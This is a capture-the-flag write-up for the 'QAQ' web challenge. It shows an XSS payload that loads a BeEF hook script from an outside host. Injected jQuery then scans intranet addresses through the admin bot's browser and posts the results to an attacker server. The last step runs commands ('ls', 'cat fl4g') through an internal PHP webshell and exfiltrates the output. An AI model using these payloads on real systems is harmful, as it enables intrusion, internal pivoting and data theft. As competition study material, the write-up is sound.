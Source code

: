 # Writeup for QAQ (WEB) (350)

> Solves: 16
> 
> web
> 
> http://104.199.132.251:80
> 
> hint1: What else can XSS do? Just steal cookies? Secret in intranet，hack harder guys!
> 
> hint2: CORS headers
  
We had a web interface:

![Screenshot_1.png](Screenshot_1.png)

After submit form, had summary, so we could test XSS prevention bypass, by us (this alert was not xss, was native in response):

![Screenshot_2.png](Screenshot_2.png)

Our XSS Payload: 

```
<iframe onload='
    var sc   = document.createElement("scr" + "ipt");
    sc.type  = "text/javascr" + "ipt";
    sc.src   = "http://1.2.3.4/js/hook.js";
    document.body.appendChild(sc);
    '
/>
```

XSS successfully append code to body:
```
<script type="text/javascript" src="http://1.2.3.4/js/hook.js"></script>
```
So we could execute any unrestricted javascript code, from our external server, which was read by admin (BOT).

On first we executed [hook.js](hook.js) from BeEF source. 

Hint `Secret in intranet` prompted us to scan hosts in BeEF, results was:

```
127.0.0.1       localhost       Linux
172.17.0.1                      Linux 
192.168.1.3                     Linux
```

After that we checked IP nearest to founded hosts

Injected JS code (only replaced code in hook.js in our server, XSS payload was same)
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://192.168.1.1", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.1"} );
});
jQuery.get( "http://192.168.1.2", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.2"} );
});
jQuery.get( "http://192.168.1.3", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.3"} );
});
jQuery.get( "http://192.168.1.4", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.4"} );
});
jQuery.get( "http://192.168.1.5", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.5"} );
});
jQuery.get( "http://172.17.0.1", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.1"} );
});
jQuery.get( "http://172.17.0.2", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.2"} );
});
jQuery.get( "http://172.17.0.3", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.3"} );
});
jQuery.get( "http://172.17.0.4", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.4"} );
});
jQuery.get( "http://172.17.0.5", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.5"} );
});
```

Source of server script observer code (http://1.2.3.4/app_dev.php):
```
<?php

$file = fopen("file.txt", "a");
fwrite($file, "\n\n\n". $_POST['x']);
fclose($myfile);
```


We had response from `172.17.0.2` that looked promising. Next step was checked what was there.

Changed hook.js again, for:
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://172.17.0.2", function( data ) {
    jQuery.post( "http://37.59.36.155/app_dev.php", { x: data} );
});
```

gave us response:

```
<html>
<body>
=.=
webdog
webshell
=.=
<!--
header("Access-Control-Allow-Origin: *");

$ztz= 'system';
ob_start($ztz);
echo $_GET[c];
ob_end_flush();

or

$ztz = new ReflectionFunction("system");
echo $ztz->invokeArgs(array("$_GET[c]"));
-->
</body>
</html>
```

Looked nice. We had php shell from `$_GET[c]`

Changed hook.js again, for:
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://172.17.0.2/?c=ls", function( data ) {
    jQuery.post( "http://37.59.36.155/app_dev.php", { x: data} );
});
```

gave us response:
```
fl4g
index.php
index.php
```

And finally:
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://172.17.0.2/?c=cat fl4g", function( data ) {
    jQuery.post( "http://37.59.36.155/app_dev.php", { x: data} );
});
```


returned flag